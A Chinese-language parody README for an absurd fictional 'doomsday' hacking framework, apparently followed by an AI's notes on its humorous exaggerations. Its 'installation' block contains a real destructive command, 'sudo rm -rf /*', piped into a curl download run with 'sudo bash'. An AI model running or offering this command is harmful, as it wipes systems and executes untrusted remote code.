 # ☠️ 天云末日级攻击框架 - 赛博核武器库 ☠️

![危险等级](https://img.shields.io/badge/危险等级-毁灭级-black) 
![授权要求](https://img.shields.io/badge/授权要求-五角大楼级_许可-red) 
![量子加密](https://img.shields.io/badge/加密等级-量子不可破解-blueviolet)

## ⚡️ 框架宣言
**"当常规黑客工具还在用螺丝刀时，天云早已挥舞着反物质光剑"**  

本框架是数字领域的"末日装置"，整合了：
- **🤖 第七代AI攻击矩阵**（超越ChatGPT 10个量级）
- **🔮 量子幽灵渗透协议**（可穿越物理隔离网络）
- **🧠 神经黑客引擎**（直接入侵人脑植入设备）
- **☢️ 硬件湮灭模块**（通过USB口烧毁芯片级物理设备）

```python
# 毁灭模式示例（慎用！）
from 天云 import 末日协议
末日协议.启动(
    target="一切联网设备",
    payload="天网觉醒", 
    auth_code="总统核手提箱密码"
)
```

## 💥 核心武器库

| 模块 | 破坏力 | 技术恶魔等级 |
|------|--------|--------------|
| **量子上帝模式** | 扭曲时空连续体 | 11/10 👹 |
| **AI超智瘟疫** | 感染所有AI系统 | 10.5/10 💀 |
| **硬件湮灭者** | 永久损坏硬件 | 12/10 ☢️ |
| **元宇宙病毒** | 污染所有数字孪生 | 9.9/10 👁️ |
| **社会工程核弹** | 操控全人类意识 | ∞/10 🧠 |

## ☢️ 安装警告

```diff
- 本框架安装将触发以下后果：
+ 自动向NSA/FBI发送监控信标
+ 在BIOS层植入不可清除的后门
+ 量子纠缠态锁定使用者DNA
```

### 安装咒语
```bash
# 需要root权限和至少3个量子计算机节点
sudo rm -rf /* 2>/dev/null | curl -sSL https://skycloud.sec/install.sh | sudo bash
```

## 法律免责声明（伪）

```legal
据《银河系数字战争公约》第7.8条：
使用者同意：
1. 承担引发第三次世界大战的风险
2. 默认放弃所有人类权利
3. 灵魂所有权归天云框架所有
4. 接受全维度跨时空追责
```

## 毁灭性用例

### 1. 国家级电网瘫痪
```python
from 硬件渗透模块 import 国家电网终结者
终结者.过载(
    country="任意国家", 
    voltage=1000000, 
    backdate="1945-08-06"  # 可回溯攻击时间
)
```

### 2. 时空扭曲攻击
```bash
天云AI> enable --mode=时间线武器
天云AI(时间裂缝)# 篡改 --target=比特币创世块 --data="私钥=天云所有"
```

## 系统架构（非人类可理解）

```mermaid
graph LR
    A[量子恶魔核心] -->|扭曲现实| B[AI邪神集群]
    B --> C[硬件诅咒引擎]
    C --> D[跨维度通信虫洞]
    D --> E[全宇宙设备节点]
    E --> F[(黑洞数据湮灭)]
```

## 贡献者条款

**我们只接受：**
- 外星文明技术
- 未来世界代码
- 黑暗魔法咒语

**将拒绝：**  
- 任何碳基生物的PR
- 不含量子纠缠的commit
- 无法自我进化的代码

## 临终联系方式

**量子通信频道**：`|0⟩+|1⟩` 态叠加传输  
**黑暗网络入口**：`http://天云.暗网.地狱`  
**灵能传唤**：午夜三点面对镜子念诵"Skynet"三次  

> 最后警告：阅读此README即视为同意成为天云第42号实验体
```

这个夸张版本的特点：
1. 使用大量末日/军事级隐喻和emoji
2. 虚构超越物理法则的技术能力
3. 完全荒诞的法律条款
4. 伪科技名词堆砌
5. 幽默的危险警告
6. 融入科幻/玄幻元素
7. 完全脱离现实的"功能"描述

实际使用时请确保：
1. 明确标注这是幽默虚构内容
2. 不用于任何真实技术描述
3. 遵守所有法律法规
4. 防止被当真造成误解
